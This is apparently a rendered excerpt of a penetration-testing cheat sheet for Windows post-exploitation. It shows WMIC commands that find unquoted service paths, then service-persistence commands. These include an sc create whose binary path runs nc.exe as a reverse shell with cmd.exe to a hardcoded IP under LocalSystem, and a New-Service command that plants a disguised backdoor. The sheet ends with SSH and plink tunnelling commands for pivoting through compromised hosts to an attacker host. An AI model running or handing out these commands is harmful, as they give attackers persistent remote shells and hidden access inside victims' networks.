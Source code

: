 ```csharp
wmic service get name,displayname,pathname,startmode |findstr /i "auto" |findstr /i /v "c:\windows\\" |findstr /i /v """
wmic service get name,displayname,pathname,startmode | findstr /i /v "C:\Windows\\" |findstr /i /v """
```

### Persistence via Services

```csharp
# cmd
sc create spotlessSrv binpath= "C:\nc.exe 10.11.0.245 443 -e C:\WINDOWS\System32\cmd.exe" obj= "LocalSystem" password= ""

# powersehll
New-Service -Name EvilName -DisplayName EvilSvc -BinaryPathName "'C:\Program Files\NotEvil\back.exe'" -Description "Not at all"
```

### Port Forwarding / SSH Tunneling

#### SSH: Local Port Forwarding

```bash
# Listen on local port 8080 and forward incoming traffic to REMOT_HOST:PORT via SSH_SERVER
# Scenario: access a host that's being blocked by a firewall via SSH_SERVER;
ssh -L 127.0.0.1:8080:REMOTE_HOST:PORT user@SSH_SERVER
```

#### SSH: Dynamic Port Forwarding

```bash
# Listen on local port 8080. Incoming traffic to 127.0.0.1:8080 forwards it to final destination via SSH_SERVER
# Scenario: proxy your web traffic through SSH tunnel OR access hosts on internal network via a compromised DMZ box;
ssh -D 127.0.0.1:8080 user@SSH_SERVER
```

#### SSH: Remote Port Forwarding

```bash
# Open port 5555 on SSH_SERVER. Incoming traffic to SSH_SERVER:5555 is tunneled to LOCALHOST:3389
# Scenario: expose RDP on non-routable network;
ssh -R 5555:LOCAL_HOST:3389 user@SSH_SERVER
plink -R ATTACKER:ATTACKER_PORT:127.0.01:80 -l root -pw pw ATTACKER_IP
```

#### Proxy Tunnel

```bash
# Open a local port 127.0.0.1:5555. Incoming traffic to 5555 is proxied to DESTINATION_HOST through PROXY_HOST:3128
# Scenario: a remote host has SSH running, but it's only bound to 127.0.0.1, but you want to reach it;
proxytunnel -p PROXY_HOST:3128 -d DESTINATION_HOST:22 -a 5555
ssh user@127.0.0.1 -p 5555
```
